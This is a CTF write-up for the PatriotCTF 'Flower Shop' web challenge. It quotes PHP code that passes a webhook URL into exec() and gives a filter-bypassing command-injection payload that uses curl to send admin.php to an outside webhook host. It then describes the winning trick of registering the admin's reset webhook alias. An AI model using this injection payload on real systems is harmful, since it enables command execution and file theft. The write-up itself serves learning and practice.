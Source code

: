 ```yaml
---
layout: post
current: post
cover:  assets/patriot/flowershop/cover.webp
navigation: True
title: "Flower Shop"
date: 2023-09-10 22:00:00
tags: [PatriotCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


Bad news: pay-to-win made it to CTFs. Good news: we paid first.

In this challenge, we're presented with a basic user management system:

![Sign up, login, and password reset screen](assets/patriot/flowershop/image1.webp)

Alright, login, signup, and password reset. Pretty standard stuff. The one difference is in the password reset system. Instead of providing an email, you have to provide a webhook URL.

## The Intended Solution

One look at the password reset system and it's immediately obvious what the vulnerability is.

```php
public function resetPassword() {
    $this->wh = $this->checkUser($this->uid);
    if (!$this->wh) {
        header("location: ../login.php?error=InvalidUser");
        exit();
    }

    $this->tmpPass = $this->tmpPwd($this->uid);

    exec("php ../scripts/send_pass.php " . $this->tmpPass . " " . $this->wh . " > /dev/null 2>&1 &");

    return $this->tmpPass;
}
```

A call to `exec`? It's practically asking to be exploited -- and you very easily can. The webhook is validated, but the validation is done very insecurely, using PHP filters:

```php
$this->wh = filter_var($wh, FILTER_SANITIZE_URL);
...
if (!filter_var($this->wh, FILTER_VALIDATE_URL)) {
    header("location: ../login.php?error=NotValidWebhook");
    exit();
}
```

`FILTER_SANITIZE_URL` is the easiest check to get around -- it just removes some illegal characters. `FILTER_VALIDATE_URL` hypothetically validates the URL against RFC2396, but there are lots of payloads that get around it. The flag is stored in `../admin.php`, so this is about how far we got on the payload before finding our unintentional solution:

```
0://google.com;curl${IFS}-d${IFS}@../../admin.php${IFS}https://webhook.site/nisala;
```

This bypasses the URL filter, and allows us to run a command with the insecure use of `exec`. We were still ironing out exactly how to use `${IFS}` to get spaces when we found an unintentional solution.

## The Unintentional Solution

So the flag is stored at `admin.php`, right? What's stopping us from just going there?

```php
if ($_SESSION['username'] !== "admin" ) {
    header("Location: login.php?error=notadmin");
    exit();
}
```

Our username needs to be `admin`, huh? Well, we can't register as `admin`, so it's clearly getting pre-created. Is that in the code?

```php
private function initDB() {
    $stmt = $this->connect()->prepare('INSERT INTO users (username, password, webhook)
    VALUES ("admin", :password, :webhook)');
    $stmt->bindValue(':password', $hashedPwd);
    $stmt->bindValue(':webhook', "https://webhook.site/fake");
    $stmt->execute();
}
```

So it seems that `admin`'s password resets are being sent to `webhook.site/fake`. If we can see those, we can just log in as admin and get the flag. Now, this may seem far-fetched, but... can we control that URL?

![webhook.site page that shows premium tier has custom aliases](assets/patriot/flowershop/image2.webp)

Oh my god. So, does that mean...

![webhook.site page showing control of webhook.site/fake](assets/patriot/flowershop/image3.webp)

Yes. Yes it does. Let's send in a password reset for admin.

![webhook.site/fake showing the password](assets/patriot/flowershop/image4.webp)

And now we just sign in and claim our prize.

![flag, logged in as admin on the flower shop website](assets/patriot/flowershop/image5.webp)
